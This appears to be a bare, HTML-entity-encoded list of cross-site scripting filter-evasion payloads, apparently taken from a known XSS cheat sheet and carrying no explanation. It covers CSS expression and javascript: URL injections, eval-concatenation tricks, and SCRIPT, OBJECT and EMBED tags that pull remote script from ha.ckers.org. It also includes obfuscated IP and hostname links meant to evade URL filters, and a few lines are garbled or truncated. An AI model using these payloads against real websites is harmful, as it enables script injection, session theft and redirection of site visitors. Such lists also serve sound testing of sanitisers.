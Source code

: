       &lt;DIV STYLE=\"background-image&#58; url(javascript&#058;alert('XSS'))\"&gt;
      &lt;DIV STYLE=\"width&#58; expression(alert('XSS'));\"&gt;
      &lt;STYLE&gt;@im\port'\ja\vasc\ript&#58;alert(\"XSS\")';&lt;/STYLE&gt;
      &lt;IMG STYLE=\"xss&#58;expr/*XSS*/ession(alert('XSS'))\"&gt;
      &lt;XSS STYLE=\"xss&#58;expression(alert('XSS'))\"&gt;
      exp/*&lt;A STYLE='no\xss&#58;noxss(\"*//*\");
      xss&#58;ex&#x2F;*XSS*//*/*/pression(alert(\"XSS\"))'&gt;
      &lt;STYLE TYPE=\"text/javascript\"&gt;alert('XSS');&lt;/STYLE&gt;
      &lt;STYLE&gt;&#46;XSS{background-image&#58;url(\"javascript&#058;alert('XSS')\");}&lt;/STYLE&gt;&lt;A CLASS=XSS&gt;&lt;/A&gt;
      &lt;STYLE type=\"text/css\"&gt;BODY{background&#58;url(\"javascript&#058;alert('XSS')\")}&lt;/STYLE&gt;
      &lt;!--&#91;if gte IE 4&#93;&gt;
      &lt;SCRIPT&gt;alert('XSS');&lt;/SCRIPT&gt;
      &lt;!&#91;endif&#93;--&gt;
      &lt;BASE HREF=\"javascript&#058;alert('XSS');//\"&gt;
      &lt;OBJECT TYPE=\"text/x-scriptlet\" DATA=\"http&#58;//ha&#46;ckers&#46;org/scriptlet&#46;html\"&gt;&lt;/OBJECT&gt;
      &lt;OBJECT classid=clsid&#58;ae24fdae-03c6-11d1-8b76-0080c744f389&gt;&lt;param name=url value=javascript&#058;alert('XSS')&gt;&lt;/OBJECT&gt;
      &lt;EMBED SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;swf\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
      &lt;EMBED SRC=\"data&#58;image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==\" type=\"image/svg+xml\" AllowScriptAccess=\"always\"&gt;&lt;/EMBED&gt;
      a=\"get\";
      b=\"URL(\\"\";
      c=\"javascript&#058;\";
      d=\"alert('XSS');\\")\";
      eval(a+b+c+d);
      &lt;HTML xmlns&#58;xss&gt;&lt;?import namespace=\"xss\" implementation=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;htc\"&gt;&lt;xss&#58;xss&gt;XSS&lt;/xss&#58;xss&gt;&lt;/HTML&gt;
      &lt;XML ID=I&gt;&lt;X&gt;&lt;C&gt;&lt;!&#91;CDATA&#91;&lt;IMG SRC=\"javas&#93;&#93;&gt;&lt;!&#91;CDATA&#91;cript&#58;alert('XSS');\"&/SCRIPT+AD4-
      &lt;SCRIPT a=\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT =\"&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT a=\"&gt;\" '' SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT \"a='&gt;'\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT a=`&gt;` SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT a=\"&gt;'&gt;\" SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;SCRIPT&gt;document&#46;write(\"&lt;SCRI\");&lt;/SCRIPT&gt;PT SRC=\"http&#58;//ha&#46;ckers&#46;org/xss&#46;js\"&gt;&lt;/SCRIPT&gt;
      &lt;A HREF=\"http&#58;//66&#46;102&#46;7&#46;147/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//1113982867/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//0x42&#46;0x0000066&#46;0x7&#46;0x93/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//0102&#46;0146&#46;0007&#46;00000223/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"htt p&#58;//6 6&#46;000146&#46;0x7&#46;147/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"//www&#46;google&#46;com/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"//google\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//ha&#46;ckers&#46;org@google\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//google&#58;ha&#46;ckers&#46;org\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//google&#46;com/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//www&#46;google&#46;com&#46;/\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"javascript&#058;document&#46;location='http&#58;//www&#46;google&#46;com/'\"&gt;XSS&lt;/A&gt;
      &lt;A HREF=\"http&#58;//www&#46;gohttp&#58;//www&#46;google&#46;com/ogle&#46;com/\"&gt;XSS&lt;/A&gt;
      &lt;
      %3C
      &lt
      &lt;